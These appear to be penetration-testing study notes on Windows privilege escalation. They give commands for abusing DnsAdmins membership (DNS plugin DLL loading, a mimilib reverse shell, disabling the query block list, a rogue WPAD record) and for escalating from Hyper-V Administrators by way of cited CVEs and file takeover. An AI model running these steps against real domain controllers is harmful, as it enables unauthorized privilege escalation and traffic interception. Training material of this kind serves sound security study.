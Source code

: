 ```cmd
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```
Start the DNS service again
```cmd
sc.exe start dns
```
Check the DNS 
```cmd
sc query dns
```


### [Exploit](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) using [Mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)

Modify this [file](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) to execute a reverse shell one-liner 
Exploit using a WPAD Record 
Allows disabling of [global query block security](https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)

#### Running the exploit
Disable the global query block list
```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
Add a WDAP record 
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain name>.local -ComputerName dc01.<domain name>.local -IPv4Address <ip>
```

### [Hyper-V Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#hyper-v-administrators)
Full access to [Hyper-V Features](https://learn.microsoft.com/en-us/windows-server/manage/windows-admin-center/use/manage-virtual-machines)
If the DC is visualised then they should be considered domain admins
May be able to make a clone of the DC 
[Exploit](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/) using 
	[CVE-2018-0952](https://www.exploit-db.com/exploits/45244)
	[CVE-2019-0841](https://www.exploit-db.com/exploits/46683)

##### Target File
Update this [exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) to grant full user permissions on a file
Take ownership of the file:
```cmd
takeown /F <file path>
```
Replace the file with malicious version of the file
```cmd
sc.exe start <malicous file>
```
only works pre-march 2020
